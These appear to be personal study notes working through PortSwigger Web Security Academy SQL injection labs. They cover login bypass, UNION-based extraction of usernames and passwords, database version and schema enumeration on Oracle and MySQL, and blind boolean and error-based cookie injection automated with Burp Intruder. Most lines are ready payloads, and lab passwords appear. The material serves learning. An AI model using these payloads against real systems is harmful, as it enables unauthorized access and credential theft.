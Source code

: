 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept category, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login

### Lab: SQL injection attack, querying the database type and version on Oracle

Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual
ex: '+UNION+SELECT+NULL,NULL+FROM+dual--
check for string data types
'+UNION+SELECT+'string','string2'+FROM+dual--
Now look for version by using BANNER, NULL, and v$version from cheatsheet.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Hint: You can find some useful payloads on our SQL injection cheat sheet.
for this instead of using '--' at the end, it will be a hash #  
ex: '+UNION+SELECT+NULL#
find number of columns and check for strings
'+UNION+SELECT+'string2','string1'#
for microsoft @@version  
ex:'+UNION+SELECT+@@version,NULL#

### SQL injection attack, listing the database contents on non-Oracle databases

Hint: You can find some useful payloads on our SQL injection cheat sheet.  
proxy -> intercept -> repeater  
Non-oracle -- -> NULL NULL enumerate until columns found, then string search.  
Grab name of tables we want username/passwords table_name keyword information_schema.tables keyword  
ex: '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--  
Show response in browser -> ctrl+f 'users' save user custom name
search column_name and information.schema.columns Where table_name= usercustomName
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zleagd'--
find name of username column and password column -> ex: password_ozeovi username_oiwhns
Then make UNION select with username, password, FROM, usertable
ex: '+UNION+SELECT+username_oiwhns,password_ozeovi+FROM+users_zleagd--
grab username/password for administrator
Login from Myaccount

### SQL injection attack, listing the database contents on Oracle

proxy-intercept-repeater - ORACLE (+FROM+dual) instead of --
enumerate nulls for columns '+UNION+SELECT+NULL,NULL+FROM+dual--
test strings - both are strings
Grab name of tables we want username/passwords table_name keyword all_tables keyword for ORACLE
ex: '+UNION+SELECT+table_name,NULL+FROM+all_tables--
get users table info - USERS_ICXPNX
search column_name and ORACLE: all_tab_columns using our username table to filter via WHERE clause
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ICXPNX'--
Then make UNION select with username, password, FROM, usertable
PASSWORD_TYRFNT
USERNAME_AIPDKN
'+UNION+SELECT+USERNAME_AIPDKN,PASSWORD_TYRFNT+FROM+USERS_ICXPNX--
Log in using administrator and password.

# BLIND SQL INJECTIONS

### Lab: Blind SQL injection with conditional responses

Hint: You can assume that the password only contains lowercase, alphanumeric characters.  
intercept, reload, repeater, see Cookie: tracking-ID=  
use booleans EX: Cookie: TrackingId=AfmV0i55jXUHch34' AND '1'='1;  
search for 'Welcome back' string shows that it's injectable  
if boolean is a false and doesn't give 500 error, it shows it's injectable.  
intercept -> repeater -> send to intruder  
intruder -> clear positions -> trackingId position, figure out length of password.  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a;  
highlight '1' click add in intruder  
ex:' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a; session=80ZmlNFRn852B56JEPNfCP8hWIoUQcZX  
payload -> type -> numbers -> from 1 to 30(super secure) step = 1.  
options tab -> grep match -> clear -> add "Welcome" we know logged in users see "Welcome back!"  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;  
intruder -> clusterbomb(two payloads)  
TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;  
select payloads  
Cookie: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;  
payload 1 -> numbers 1-20(we know PW is 20 long from prior step) step 1  
payload 2 -> simple list ->payload options -> add a-z and 0-9  
Start attack, wait for 30 minutes, order results  
pw: i0tky7lpg6kfrvw0o0vf

### Blind SQL injection with conditional errors

Cookie: TrackingId=4KuVlET3kPLQfehN'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';  
server Error  
change 1=2 ex: '||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';  
send to intruder, clear  
get error back to find PW length ex: '||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'  
select 1 and 'add' for payload ex: LENGTH(password)>§1§  
payload - numbers 1-30 step 1  
options are default  
Start attack, look for 500 status response = error response for me 19 errors 20 char long pw

now iterate over 20 chars to find out which char for all 20.  
intruder similar to last time.  
ex: '||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';  
add a and first 1, ex: Cookie: TrackingId=4KuVlET3kPLQfehN'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';  
Cluster bomb attack (two payloads)
payload 1 numbers 1-20 step 1, payload 2 a-z 0-9
look for any 500s and we'll get the password from internal server error. 500 = valid character
pw for me is: 0ox8ymrn3mncq880m5uh

### Lab: Blind SQL injection with time delays

hint: You can find some useful payloads on our SQL injection cheat sheet.
